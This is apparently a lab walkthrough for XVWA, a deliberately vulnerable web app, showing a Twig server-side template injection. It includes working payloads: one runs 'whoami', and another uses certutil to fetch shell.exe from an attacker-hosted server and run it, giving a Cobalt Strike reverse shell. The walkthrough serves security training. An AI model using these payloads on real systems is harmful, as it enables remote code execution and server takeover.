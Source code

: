 XVWA-WalkThrough
disclaimer
This document is for learning and research purposes only. Please do not use the technical source code in this document for illegal purposes. Any negative impact caused by anyone has nothing to do with me.

Range project address

https://github.com/s4n7h0/xvwa
lab environment

The environment is for reference only

phpstudy
Microsoft Windows 10 Enterprise LTSC - 10.0.17763
VMware® Workstation 15 Pro - 15.0.0 build-10134415
kali 4.19.0-kali3-amd64
CobaltStrike4.1
build/use
Here use phpstudy to build, mysql5.1.60 + php5.2.17 environment

The database needs to manually create the xvwa library, and modify config.php to enter the credentials for the database connection



Server Side Template Injection (SSTI)
Designing HTML pages is made easier as the template engine supports using static template files and replacing variables/placeholders with actual values in the HTML page at runtime. Currently well known and widely used templating engines are Smarty, Twig, Jinja2, FreeMarker and Velocity.

If attackers can inject template directives as user input, and these directives can execute arbitrary code on the server, then they are not far away from server-side template injection attacks.

Visit the page, try to enter ${{1+2}}, according to the server response, the result is $3. From this response, we can surmise that a template engine is being used here, since this matches how they handle {{}} .



According to the prompt, use the POC of the TWIG template engine

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}


Rebound a shell with CS (windows)

CS monitoring



Generate a bounce payload



Upload to kali deployment

python -m SimpleHTTPServer 8000
Execute with payload

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("certutil.exe -urlcache -split -f http://192.168.141.143:8000/shell.exe shell.exe & shell .exe")}}
successfully launched



Check the server directory, there is a shell.exe file

